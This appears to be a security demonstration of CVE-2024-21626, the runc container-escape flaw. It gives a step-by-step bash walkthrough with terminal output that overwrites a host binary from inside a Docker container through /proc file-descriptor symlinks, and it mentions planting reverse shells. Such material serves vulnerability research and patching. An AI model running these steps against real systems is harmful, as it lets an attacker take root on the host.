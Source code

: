 ```bash
# scenario 3b: host binary overwrite attack
# Attack 3b is attack 2 but adapted to overwrite a host binary

# terminal 1
# run container
sudo docker run --name cve-2024-21626 --rm -it debian:bookworm

# create symlinks
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /foo
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /bar

# terminal 2: exec inside the container and set working directory
sudo docker exec -it -w /bar cve-2024-21626 sleep 1000

# terminal 1
# find actula pid with the right cmdline
root@d98de5a852d7:/# ls -f /proc
.    irq   kmsg   kcore   mdstat   cpuinfo  sysvipc   softirqs  bootconfig  execdomains    sysrq-trigger      15
..   net   misc   locks   mounts   devices  version   zoneinfo  interrupts  filesystems    version_signature
fb   sys   mtrr   swaps   uptime   ioports  consoles  buddyinfo  kpagecount  kpagecgroup    self
fs   tty   scsi   asound  vmstat   loadavg  kallsyms  diskstats  kpageflags  vmallocinfo    thread-self
bus  acpi  stat   crypto  cgroups  meminfo  pressure  key-users  partitions  pagetypeinfo   1
dma  keys  iomem  driver  cmdline  modules  slabinfo  schedstat  timer_list  dynamic_debug  9

root@d98de5a852d7:/# cat /proc/9/cmdline 
sleep120

# write file in the host container
root@b6873018a7e8:.# cat > /proc/8/cwd/../../../../bin/cve2024_21626 << EOF
#!/bin/bash
echo "Hello CVE-2024-21626"
EOF

# change chmod
root@b6873018a7e8:.# /proc/8/cwd/../../../../bin/chmod +x \
                     /proc/8/cwd/../../../../bin/cve2024_21626
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory

# check if the file is present in the host
demo@demo-pc:/bin$ ls -la | grep cve
-rwxr-xr-x  1 root root          40 mar  7 13:39 cve2024_21626

# try it in the host
demo@demo-pc:/bin$ sudo ./cve2024_21626 
Hello CVE-2024-21626
```
<br>
The above attacks are only an example. Once obtained the permission to write in the host in root container user, it is possible to substitute any file we want (e.g. inject reverse shell in the `/bin/bash` binary, enable a reverse shell in crontab job, etc).
